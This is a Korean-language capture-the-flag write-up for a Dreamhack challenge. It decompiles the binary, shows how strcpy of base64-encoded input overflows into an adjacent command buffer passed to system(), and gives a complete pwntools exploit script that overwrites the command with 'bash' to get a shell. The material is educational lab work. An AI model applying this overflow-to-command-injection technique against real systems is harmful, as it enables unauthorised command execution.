


# [Dreamhack.io] Base64 Encoder Write-Up

- **Platform:** Dreamhack
- **Date:** 2026-08-17 (solved) / 2026-08-20 (written)
- **Difficulty:** Easy

---

## 1. Challenge Overview (문제 개요)

> [!NOTE] **문제 요약**
> - **목표:** Flag 획득 (`/flag` 읽기 또는 `execve` 쉘 획득)

- **제공 파일:**
	```text
	┌──── Dockerfile
	└──── deploy
	    ├──── chall
	    └──── flag
	```
- **보호 기법 (Checksec):**
	

---

## 2. Vulnerability Analysis (취약점 분석)

### 소스 코드 / 디컴파일 분석

* **ghidra**를 통해 `chall`을 디컴파일하여 나온 `main` 함수의 내용이다.

```c
undefined8 main(void)
{
  ssize_t sVar1;
  int selector;
  undefined1 userArr [64];
  char base64_result [64];
  char command [32];
  char *local_18;
  int local_c;
  
  builtin_strncpy(command,"echo bye",9);
  command[9] = '\0';
  command[10] = '\0';
  command[0xb] = '\0';
  command[0xc] = '\0';
  command[0xd] = '\0';
  command[0xe] = '\0';
  command[0xf] = '\0';
  command[0x10] = '\0';
  command[0x11] = '\0';
  command[0x12] = '\0';
  command[0x13] = '\0';
  command[0x14] = '\0';
  command[0x15] = '\0';
  command[0x16] = '\0';
  command[0x17] = '\0';
  command[0x18] = '\0';
  command[0x19] = '\0';
  command[0x1a] = '\0';
  command[0x1b] = '\0';
  command[0x1c] = '\0';
  command[0x1d] = '\0';
  command[0x1e] = '\0';
  command[0x1f] = '\0';
  init();
  while( true ) {
    puts("[1] Base64 Encode");
    puts("[2] Exit");
    printf("> ");
    __isoc99_scanf(&DAT_00102022,&selector);
    if (selector != 1) break;
    sVar1 = read(0,userArr,0x40);
    local_c = (int)sVar1;
    local_18 = (char *)base64_encode(userArr,(long)local_c);
    strcpy(base64_result,local_18);
    puts(base64_result);
    free(local_18);
  }
  if (selector == 2) {
    system(command);
    return 0;
  }
  puts("Invalid input");
                    /* WARNING: Subroutine does not return */
  exit(-1);
}
```

* 1번 옵션을 통해 64바이트 크기의 문자열을 입력받을 수 있다.
* 입력 받은 문자열은 Base64 인코딩을 통해 또 다른 배열에 저장된다.
	=> 이때 `strcpy()` 함수를 이용하는데, 이는 문자열들의 크기를 검증하지 않는다.
	=> 또한 사용자의 입력이 최대 64바이트 크기라면, Base64 인코딩 결과는 최대 88바이트가 나올 수 있으므로 배열에 저장되는 과정에서 Buffer Overflow가 발생할 수 있다.
* 이를 이용해 만약 `command` 변수의 값을 변경할 수 있다면,
  2번 옵션을 통해 실행되는 명령어를 변경할 수 있을 것이다. (Command Injection)
#### Base64 Encoding
* 사용자의 입력 문자열을 [A-Za-z0-9+/], 총 64개의 문자로 조합된 문자열로 인코딩
* 입력된 문자열 3바이트씩 6비트로 나누어 4바이트의 문자로 만든다.
	==> 따라서 인코딩을 통해 이전에 비해 4/3 확장되게 된다.

### 취약점 원인 (Root Cause)
- **발생 원인:** 버퍼 크기 부족 및 검증 미흡으로 인한 Buffer Overflow
- **파급 효과:** 쉘 명령어 실행 가능

---

## 3. Exploit Strategy (최종 해결 전략)

> [!TIP] **돌파구 (Breakthrough)**
> Base64 인코딩 결과가 **더미값 64바이트 + 원하는 명령어**가 될 수 있도록 입력한 뒤, 2번 옵션을 통해 쉘을 탈취한다.

#### main 함수 스택 프레임



* 사용자 입력을 저장하는 `userArr`, Base64 인코딩 결과를 저장하는 `base64_result`, 프그램 종료 시 실행되는 명령어가 저장된 `command` 변수 셋 다 인접하게 있다.
* 사용자 입력이 최대 64바이트일 때, 결과값이 88바이트이므로, 우리는 `command` 변수의 상위 24바이트를 변조시킬 수 있다.
* `base64_result`를 더미값으로 넣기 위해서는 64 / 4 * 3 = 48 바이트를 입력해야 한다.
* 초기 `command` 변수는 `echo bye` 문자열이 저장되어 있으므로, NULL 바이트를 생각해서
  4바이트의 명령어만 넣거나, 혹은 9바이트 이상의 명령어를 넣으면 된다.
  (만약 5바이트 문자를 넣게 된다면, 뒤에 남은 `bye`로 인해 명령어 인식이 안 될 것이다.)

* 우리는 `bash` 라는 명령어를 집어넣으려고 한다. 직접 계산하여 어떤 문자열이 `bash`라는 결과를 도출하는지 확인할 필요 없이, 파이썬 내장 base64 모듈을 통해 decrypt할 수 있다.

---

## 4. Exploit Code (최종 코드)

```python
#!/usr/bin/python3
from pwn import *
import base64

context.log_level = 'debug'

target_command = 'bash'
raw_bytes = base64.b64decode(target_command)
print(f"{raw_bytes=}")

p = process('./chall')
# p = remote('IP', PORT)

p.sendlineafter(b'> ', b'1')

payload = b'A' * 48 + raw_bytes
print(f"{payload=}")

p.send(payload)

p.sendlineafter(b'> ', b'2')

p.interactive()
```

* 다음은 **로컬 환경**에서 실행한 결과이다.
	 

---
